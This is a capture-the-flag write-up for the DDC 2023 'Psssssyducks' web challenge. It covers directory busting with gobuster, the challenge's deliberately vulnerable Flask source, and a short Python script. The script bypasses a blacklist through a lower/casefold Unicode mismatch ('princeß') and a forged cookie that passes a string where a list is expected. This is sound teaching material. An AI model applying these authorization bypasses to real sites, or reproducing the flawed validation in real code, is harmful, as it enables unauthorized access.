


DDC-Qualifiers 2023 Download
Psssssyducks [1]
Description
We are given a link to a website.
Proposed difficulty: Medium-Hard
Kategori: Web SecurityOpgave beskrivelse Uanset hvor mange psyducks jeg genererer, kan jeg aldrig finde den, jeg leder efter!
Kan du hjælpe mig?Hint: husk at scanning er tilladt :)
The hint was added a few days after the CTF began.
TLDR
Dirbusting the website reveals a hidden endpoint browse, giving the link to download the source code. The source code contains multiple checks to ensure external users don't query for the psyduck princess. The checks can be bypassed by:
- The difference between casefold and lower (ß -> ß or ss)
- Passing the "psy" parameter of the cookie as a string instead of list
The image then contains the flag.
Initial recon
Before we jump into exploiting, we must first investigate the website. Following the link provided in the description, we are lead to a page with an image and a button:

Clicking the button, refreshes the site, updating the image. Checking the image source, it's pointing at an endpoint content with the parameter psyduck:
It seems this link is automatically generated by the website, no client side schenanigans. Jumping over to the storage tab, we see a suspicious cookie:
MyFavoritePsyducks=eyJwc3kiOiBbIm5vcm1hbCIsICJraW5nIiwgInRlYSIsICJjb2xkIiwgInN0cm9uZyIsICJzaHkiLCAiZ2VudGxlbWFuIiwgInNpY2siLCAiYnJpY2siLCAic3VzIiwgInN3b2xlIiwgInNjcmVhbSIsICJwYXJ0eSIsICJjb29sIiwgInBhbmljIiwgImZhc3QiLCAiaGFwcHkiLCAiaXJsIiwgIm9kZGlzaCIsICJvbml4IiwgInJhaW4iLCAic2FkIiwgInNlcmVuZSIsICJzbW9sIiwgInN1cGVyIiwgInRyaXBsZSJdfQ==
Looks like a base64 string. Decoding it yields:
$ echo eyJwc3kiOiBbIm5vcm1hbCIsICJraW5nIiwgInRlYSIsICJjb2xkIiwgInN0cm9uZyIsICJzaHkiLCAiZ2VudGxlbWFuIiwgInNpY2siLCAiYnJpY2siLCAic3VzIiwgInN3b2xlIiwgInNjcmVhbSIsICJwYXJ0eSIsICJjb29sIiwgInBhbmljIiwgImZhc3QiLCAiaGFwcHkiLCAiaXJsIiwgIm9kZGlzaCIsICJvbml4IiwgInJhaW4iLCAic2FkIiwgInNlcmVuZSIsICJzbW9sIiwgInN1cGVyIiwgInRyaXBsZSJdfQ== | base64 -d
{"psy": ["normal", "king", "tea", "cold", "strong", "shy", "gentleman", "sick", "brick", "sus", "swole", "scream", "party", "cool", "panic", "fast", "happy", "irl", "oddish", "onix", "rain", "sad", "serene", "smol", "super", "triple"]}
Hmmm, very odd. Let's experiment: Changing the cookie list to contain only the string "test" and then base64 encoding it, following the content link gives an error message:
You can only request your favorite psyducks!
So it seems to be checking the parameter psyduck against the cookie MyFavoritePsyducks. What if we changed the parameter to "test"? Ouch, another error message, but this time different:
No Psyduck requested!
So it also has an internal check? It'll be very hard to exploit this, unless we get the code behind the website.
What is a dir?
The description hints at the ability to scan the website. Seing as it's the most obvious, a dirbust seems in order. Running gobuster in dir mode with the common.txt wordlist, gives the following output:
$ gobuster dir -u http://psyducks.hkn/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://psyducks.hkn/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.5
[+] Timeout: 10s
===============================================================
2023/03/12 13:47:13 Starting gobuster in directory enumeration mode
===============================================================
/browse (Status: 200) [Size: 116]
/content (Status: 500) [Size: 290]
Progress: 4578 / 4615 (99.20%)
===============================================================
2023/03/12 13:47:28 Finished
===============================================================
This reveals an endpoint browse. Checking the endpoint, we see a html list, containing a single element, pointing to a file called backup.zip. Let's download it.
Analyzing app.py
Unzipping the file, gives us a single file: app.py. This reveals a simple flask backend:
#!/usr/bin/env python3
from flask import Flask,request,Response,render_template,abort,make_response
import json,random,os,base64
### Global variables
app = Flask(__name__)
allowedPsyducks = ['normal','king','tea','cold','strong','shy','gentleman','sick','brick','sus','swole','scream','party','cool','panic','fast','happy','irl','oddish','onix','rain','sad','serene','smol','super','triple']
forbiddenPsyducks = ['princess']
allPsyducks = allowedPsyducks + forbiddenPsyducks
### Internal functions
def forbidden_psy(requested_psyduck:str,ip:str):
if requested_psyduck.lower() in forbiddenPsyducks:
# Localhost is allowed to view the magnificent psyducks
if ip == "127.0.0.1":
return
# Outsiders are not!
else:
return abort(401)
else:
return
def check_favorite_requested(requested_psyduck:str,favourite_psyducks:list):
return requested_psyduck in favourite_psyducks
def check_favorite_forbidden(favourite_psyducks:list):
for favourite_psyduck in favourite_psyducks:
if favourite_psyduck in forbiddenPsyducks:
return False
return True
### Flask functions
@app.route('/supersecretbackup/backup.zip')
def backup():
return Response(backup_zip, mimetype='application/zip')
@app.route('/browse')
def dir_listing():
# Show directory contents
return render_template('browse.html')
@app.route('/content')
def retPsyduck():
user_request = request.args.get('psyduck')
user_ip = request.environ['REMOTE_ADDR']
user_cookie = json.loads(base64.b64decode(request.cookies.get('MyFavoritePsyducks')).decode())['psy']
# Ensure the requested psyducks is a favorite!
if not check_favorite_requested(user_request,user_cookie):
return Response('You can only request your favorite psyducks!')
# Ensure user doesn't covet any forbidden psyducks!
if not check_favorite_forbidden(user_cookie):
return Response('You are not allowed to like that psyduck!')
# Check the requested psyduck is not forbidden!
forbidden_psy(user_request,user_ip)
if user_request.casefold() in allPsyducks:
if not check_favorite_requested(user_request.casefold(), user_cookie):
return Response('You can only request your truly most favourite of psyducks!')
with open('psyducks/'+user_request.casefold()+'.png','rb') as f:
return Response(f.read(), mimetype='image/png')
else:
return Response('No Psyduck requested!')
@app.route("/")
def index():
n = random.randint(0, len(allowedPsyducks)-1)
res = make_response()
cookie = base64.b64encode(json.dumps({'psy':allowedPsyducks}).encode())
res.set_cookie('MyFavoritePsyducks', cookie)
res.set_data(indexTemplate.replace('ZZZ',allowedPsyducks[n]))
return res
### Main
with open('./templates/index.html') as f:
indexTemplate = f.read()
with open('./supersecretbackup/backup.zip','rb') as f:
backup_zip = f.read()
if(__name__ == '__main__'):
app.run(host='0.0.0.0')
At the beginning of the file, we see a whitelist and a blacklist for specific psyducks the user can request:
allowedPsyducks = ['normal','king','tea','cold','strong','shy','gentleman','sick','brick','sus','swole','scream','party','cool','panic','fast','happy','irl','oddish','onix','rain','sad','serene','smol','super','triple']
forbiddenPsyducks = ['princess']
allPsyducks = allowedPsyducks + forbiddenPsyducks
allowedPsyducks contains the list we saw in the cookie, while forbiddenPsyducks contains a single blacklisted value: princess. We can therefore assume that our goal is to bypass the blacklist, and request the princess psyduck.
So how do we go about that? Let's check out the content endpoint:
@app.route('/content')
def retPsyduck():
user_request = request.args.get('psyduck')
user_ip = request.environ['REMOTE_ADDR']
user_cookie = json.loads(base64.b64decode(request.cookies.get('MyFavoritePsyducks')).decode())['psy']
# Ensure the requested psyducks is a favorite!
if not check_favorite_requested(user_request,user_cookie):
return Response('You can only request your favorite psyducks!')
# Ensure user doesn't covet any forbidden psyducks!
if not check_favorite_forbidden(user_cookie):
return Response('You are not allowed to like that psyduck!')
# Check the requested psyduck is not forbidden!
forbidden_psy(user_request,user_ip)
if user_request.casefold() in allPsyducks:
if not check_favorite_requested(user_request.casefold(), user_cookie):
return Response('You can only request your truly most favourite of psyducks!')
with open('psyducks/'+user_request.casefold()+'.png','rb') as f:
return Response(f.read(), mimetype='image/png')
else:
return Response('No Psyduck requested!')
The function goes through a whole 5 checks before it returns the image! Our input must adhere to all the following requirements:
-
check_favorite_requested(user_request, user_cookie)
-
check_favorite_forbidden(user_cookie)
-
forbidden_psy(user_request, user_ip)
-
user_request.casefold() in allPsyducks
-
check_favorite_requested(user_request.casefold(), user_cookie)
Bypassing the blacklist
In order to know what these requirements entail, we must first investigate the functions behind them:
### Internal functions
def forbidden_psy(requested_psyduck:str,ip:str):
if requested_psyduck.lower() in forbiddenPsyducks:
# Localhost is allowed to view the magnificent psyducks
if ip == "127.0.0.1":
return
# Outsiders are not!
else:
return abort(401)
else:
return
def check_favorite_requested(requested_psyduck:str,favourite_psyducks:list):
return requested_psyduck in favourite_psyducks
def check_favorite_forbidden(favourite_psyducks:list):
for favourite_psyduck in favourite_psyducks:
if favourite_psyduck in forbiddenPsyducks:
return False
return True
It's a bit of a slog, but it basically evaluates to:
check_favorite_requested(user_request, user_cookie): Our requested psyduck must be contained within our cookie.check_favorite_forbidden(user_cookie): None of the values in our cookie can be in the blacklist.forbidden_psy(user_request, user_ip): Our psyduck passed throughlower(str)can not be in the blacklist.user_request.casefold() in allPsyducks: Our psyduck passed through casefold(str) must be a valid psyduck.check_favorite_requested(user_request.casefold(), user_cookie): Our psyduck passed throughcasefold(str)must be contained within our cookie.
One might consider trying to bypass the ip check, but in this case, it's infeasable.
The first thing to notice, is the shifting use of lower and casefold. They may look the same on the outside, but they actually have a difference. While lower only acts on ascii uppercase characters, casefold is more aggressive, and acts on the entire unicode spectrum. For instance, the german letter "ß" actually evaluates to "ss" when casefolded, but remains "ß" when lowered:
>>> "ß".casefold()
'ss'
>>> "ß".lower()
'ß'
Considering the target psyduck is princess, this is an obvious vulnerability: forbidden_psy will evaluate, that "princeß".lower() not in forbiddenPsyducks, giving the green light, whereas the main function will evaluate, that "princeß".casefold() in allPsyducks.
This bypasses two of the given requirements. The first can be bypassed, simply by having "princeß" in our cookie. The second is also bypassed, simply by not including "princess" in the cookie.
The 5th however, is a bit harder. It actually causes a bit of a paradox: "princeß".casefold() being "princess" must be contained within the cookie. But as i mentioned earlier, this cannot be: This would trigger the second requirement.
The solution is a common display of how programs must rigorously check the user inputs type. Passing the cookie as a string, manages to bypass this. It's to do with how it checks the blacklist:
def check_favorite_forbidden(favourite_psyducks:list):
for favourite_psyduck in favourite_psyducks:
if favourite_psyduck in forbiddenPsyducks:
return False
return True
Python allows iteration over string as an iteration over the characters of the string. At the same time, checking whether str in str, is equivalent to checking if the second string contains the first string.
Therefore:
-
user_request=princeß -
user_cookie={"psy": "princeßprincess"}
bypasses the blacklist.
Solution
I wrote this simple script to get the flag:
import requests
import base64
import json
psyduck = "princeß"
cookies = {"MyFavoritePsyducks": base64.b64encode(json.dumps({"psy": "princeßprincess"}).encode()).decode()}
resp = requests.get(f"http://psyducks.hkn:80/content?psyduck={psyduck}", cookies=cookies)
with open("princess.png", "w+b") as f:
f.write(resp.content)
This spits out a png with the flag:
